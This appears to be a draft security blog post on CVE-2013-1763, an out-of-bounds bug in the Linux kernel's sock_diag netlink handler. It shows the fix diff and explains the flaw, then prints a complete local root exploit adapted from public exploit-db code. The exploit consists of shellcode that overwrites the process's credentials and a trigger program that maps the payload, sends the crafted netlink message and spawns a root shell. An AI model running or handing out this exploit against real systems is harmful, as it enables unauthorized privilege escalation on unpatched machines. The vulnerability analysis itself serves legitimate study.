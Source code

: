 +++
title = "CVE-2013-1763" 
date =  "2014-04-19"
tags = ["exploit", "security", "networking"]
categories = ["blog"]
draft = true
+++

Userland can send a netlink message requesting `SOCK_DIAG_BY_FAMILY` with a family greater or equal then `AF_MAX` -- the array size of `sock_diag_handlers[]`. The current code does not test for this condition therefore is vulnerable to an out-of-bound access opening doors for a privilege escalation.

Vulnerability
--------------

```diff
diff --git a/net/core/sock_diag.c b/net/core/sock_diag.c
index 602cd63..750f44f 100644
--- a/net/core/sock_diag.c
+++ b/net/core/sock_diag.c
@@ -121,6 +121,9 @@ static int __sock_diag_rcv_msg(struct sk_buff *skb, struct nlmsghdr *nlh)
  if (nlmsg_len(nlh) < sizeof(*req))
    return -EINVAL;
 
+ if (req->sdiag_family >= AF_MAX)
+   return -EINVAL;
+
  hndl = sock_diag_lock_handler(req->sdiag_family);
  if (hndl == NULL)
    err = -ENOENT;
  else
    err = hndl->dump(skb, nlh); // hndl->dump executes !!
```


In `__sock_diag_rcv_msg` function, userland variable `req->sdiag_family` is passed uncheckly to `sock_diag_handler`, within which overflow and exploit happens.

```c
static const inline struct sock_diag_handler *sock_diag_lock_handler(int family)
{
  if (sock_diag_handlers[family] == NULL)
    request_module("net-pf-%d-proto-%d-type-%d", PF_NETLINK, NETLINK_SOCK_DIAG, family);

  mutex_lock(&sock_diag_table_mutex);
  return sock_diag_handlers[family];
}
```

Here the function returns a pointer `sock_diag_handlers + family`.

```c
struct sock_diag_handler {
  __u8 family;
  int (*dump)(struct sk_buff *skb, struct nlmsghdr *nlh);
};
hndl = sock_diag_lock_handler(req->sdiag_family);
hndl->dump(skb, nlh); //(sock_diag_handlers + family + 8) executes !!
```

All story told, here we find that finally `(sock_diag_handlers + family + 8)` executes in kernel mode. 

Exploits
---------

1. Craft a piece of shell code.
2. Calcualte the value of `family` which points `sock_diag_handlers + family + 8` to the shell code.
3. Construct a package with large `family` and set it.
4. You got it.


Shell code
-----------

1. get `current` (pointer to the current process descriptor `task_struct`)
2. Manipulate `process credentials`

```c
static long ugid;
void patch_current() {
    int i,j,k;
    char *current = *(char**)(((long)&i) & (-8192));
    long kbase = ((long)current)>>36;
    
    for (i=0; i<4000; i+=4) {
        long *p = (void *)&current[i];
        int *t = (void*) p[0];
        if ((p[0] != p[1]) || ((p[0]>>36) != kbase)) continue;
        for (j=0; j<20; j++) {
            for (k = 0; k < 8; k++)
            if (((int*)&ugid)[k%2] != t[j+k])
            goto next;
            for (i = 0; i < 8; i++)
            t[j+i] = 0;
            for (i = 0; i < 10; i++)
            t[j+9+i] = -1;
            return;
next:;
        }
    }
}
```


Crafted a package
-----------------

```c
struct {
  struct nlmsghdr nlh;
  struct unix_diag_req r;
} req;

struct nlmsghdr {
  __u32   nlmsg_len;  /* Length of message including header */
  __u16   nlmsg_type; /* Message content */
  __u16   nlmsg_flags;  /* Additional flags */
  __u32   nlmsg_seq;  /* Sequence number */
  __u32   nlmsg_pid;  /* Sending process port ID */
};

struct unix_diag_req {
  __u8  sdiag_family;
  __u8  sdiag_protocol;
  __u16 pad;
  __u32 udiag_states;
  __u32 udiag_ino;
  __u32 udiag_show;
  __u32 udiag_cookie[2];
};
```

Trigger
---------

```c
int main()
{
  long u = getuid();
  long g = getgid();
  int i, f = socket(16,3,4);
  static int n[10] = {40,0x10014,0,0,45,-1};
 
  assert(mmap((void*)(1<<12), 1<<20, 3, 0x32, 0, 0)!=-1);
 
  setresuid(u,u,u); setresgid(g,g,g);
  ugid = (g<<32)|u;
 
  memcpy(1<<12, &patch_current, 1024);
  for (i = 0; i < (1<<17); i++) ((void**)(1<<12))[i] = &patch_current;
  send(f, n, sizeof(n), 0);
  setuid(0);
  return execl("/bin/bash", "-sh", 0);
}
```

Reference
----------

All credit goes to the authors of [this][1] and [this][2] exploits.

[1]: http://www.exploit-db.com/exploits/24746/
[2]: http://www.exploit-db.com/exploits/24555/
